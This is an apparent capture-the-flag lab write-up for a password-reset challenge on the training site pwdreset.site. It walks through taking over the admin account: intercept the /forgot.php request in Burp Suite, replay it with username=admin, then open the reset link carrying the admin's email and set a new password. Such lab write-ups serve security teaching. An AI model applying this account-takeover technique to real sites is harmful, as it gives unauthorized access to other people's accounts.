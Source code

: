 # Challenge #1 - Password Reset 1- 4

## Credentials:
Username: atk
Password: atk

## Objectives

- All the http://*.pwdreset.site web applications implement different password reset mechanisms.
- Your job is to find a way to exploit these implementations in order to reset the password of any user you want.

## Hints

- Recommended tools
  - Web browser
  - Burp Suite

## Steps

## Steps

With burp suite enable login the system. The welcome show a list of users as below.

```
Welcome atk

    Username: atk
    Password: atk
    Email: atk@atk.com 

List of users

Username: admin || Email: admin@pwdreset.site
Username: atk || Email: atk@atk.com
Username: darkenedjump || Email: Suspendisse.dui@nequeSedeget.net
Username: slipperyraspy || Email: sagittis@scelerisque.ca
```

Do logout, them click in reset password and them continue.

```
http://2.pwdreset.site/forgot.php
```

A message will appear saying that you have a email message, click on the link. You have one message with a link to reset the password.

```
From: admin@pwdreset.site Message:

Someone requested a password reset for the following account:
Username: atk

If this was a mistake, just ignore this email and nothing will happen.
To reset your password, visit the following address: http://2.pwdreset.site/reset_pwd.php?useremail=atk@atk.com 
```

Copy the link, change the useremail with one from the list on the first page and them sent to the browser.

```
http://2.pwdreset.site/reset_pwd.php?useremail=admin@pwdreset.site
```

If you open this link on the browser, the system you send a message as below.

```
warning: No reset action found for this account.
```

Go to burp suite history and search for the /forgot.php request and them send the request to burp repeater.

Change the password to admin and send the request.

```
username=admin
```

Now try opening the reset link one more time.

```
http://2.pwdreset.site/reset_pwd.php?useremail=admin@pwdreset.site
```

Set a new password for this user and them login using this new credentials.
